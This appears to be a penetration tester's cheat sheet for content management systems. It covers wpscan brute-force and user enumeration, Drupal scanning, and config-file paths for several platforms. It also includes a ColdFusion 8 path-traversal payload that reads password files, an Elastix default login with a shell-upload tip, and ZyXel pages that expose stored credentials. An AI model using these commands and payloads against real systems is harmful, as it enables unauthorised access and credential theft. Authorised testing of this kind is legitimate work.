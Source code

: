 # CMS

* Enumerate version and few other details
* If don't found the version, download the source code and grep the version. We might found the page that contains the version then.
* Google their vulnerability
* Default password login page
* Guessing password login page?

## Wordpress

### wpscan

```
wpscan --url $ip/wp/
```

**Bruteforce login page**

```
wpscan --url <ip> --username <name> --wordlist <path to list>
```

**Random agent  (**If your site runs behind a firewall, you can try the same command with an additional option added to the end:)

```
wpscan --url yourwebsite.com --random-user-agent
```

### User Enumeration with WPscan

```
Wpscan flags 
e/--enumerate = for enumeration 
u = users 
ap = all plugins 
```

```
wpscan --url yourwebsite.com -e u
```

```
wpscan --url yourwebsite.com/wordpress -e u
```

### User Enumeration and all plugins scan&#x20;

```
wpscan --url <websitename>/wordpress --enumerate u , ap
```

### Zoom.py - enumerate W

### wordpress users&#x20;

```
python zoom.py -u <wordpress site>
```

### Admin page&#x20;

```
/wp-admin
/wp-login
```

### Configuration files

```
setup-config.php
wp-config.php
```

### Enumerate users

```
/?author=1, /?author=2,
```

## Drupal

### Droopescan

```
droopescan scan drupal -u http://example.org/ -t 32
```

### Find version

```
/CHANGELOG.txt
```

## Adobe cold fusion

### Determine version

```
/CFIDE/adminapi/base.cfc?wsdl
```

### Version 8 vulnerability&#x20;

* fckeditor
* LFI :-&#x20;
* `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix

* Google the vulnerabitlities
* default login are `admin:admin` at `/vtigercrm/`
* able to upload shell in profile-photo

## Joomla

* Admin page - `/administrator`
* Configuration files -&#x20;

```
configuration.php
diagnostics.php
joomla.inc.php
config.inc.php
```

## Mambo

#### Config files

```
configuration.php
config.inc.php  
```

## ZyXel

**Configuration files**

```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```
